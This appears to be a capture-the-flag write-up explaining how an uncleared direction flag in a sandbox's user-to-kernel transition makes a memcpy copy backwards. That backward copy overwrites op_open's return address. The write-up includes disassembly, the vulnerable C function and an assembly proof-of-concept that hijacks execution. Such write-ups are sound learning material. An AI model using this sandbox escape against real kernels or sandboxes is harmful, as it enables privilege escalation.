 ## Exploitation

I identified only one issue during code review, where the `flags` register is not sanitized during transistion from userland to kernelland.

The potential exploitation scenario is setting `direction flag` (DF) in order to change semantics of some *string instructions* during kernelland execution.

Searching for `rep` prefix in provided binary gives interesting fragment from `path_ok` subroutine:
```
0000000000001340 <path_ok.part.0>:
    ...
    1376:       f3 48 a5                rep movs QWORD PTR es:[rdi],QWORD PTR ds:[rsi]
```
The above corresponds to `memcpy` instruction during pathname validation code of `__NR_open`:
```
int path_ok(char *pathname, const char *p)
{
  if (!access_ok(p, MAX_PATH))
    return 0;

  memcpy(pathname, p, MAX_PATH);
  pathname[MAX_PATH - 1] = '\x00';

  if (strstr(pathname, "flag") != NULL)
    return 0;

  return 1;
}
```

The passed `pathname` buffer is allocated on `op_open` stack frame.
With `direction flag` set, the `rep movs` code decrements `rdi` and `rsi` registers on each iteration.
After coping the first qword of userland-supplied data into start of `pathname`, it continues to preceding stack addresses.
This vulnerability allows for controlling over 200 bytes (almost MAX_PATH) on stack just before allocated `pathname` buffer.

Running sandbox under debugger with trivial PoC userland code confirm ability to overwrite `op_open` return address.
This can be exploted as follows to execute user-supplied code in 64-bit mode:
```
        entry:
            mov     esp, 0xbef00000
            sub     esp, 0x200
            std
            push    0
            push    0xdead0000 + hijack_64 - entry
            mov     edi, 2                      /* __NR_open */
            lea     esi, [esp + 8]              /* path */
            xor     eax, eax                    /* mov  eax, 0xfffff000 */
            dec     eax
            shl     eax, 12
            push    eax
            ret
        hijack_64:
            /* Any code to execute in 64-bit mode */
```
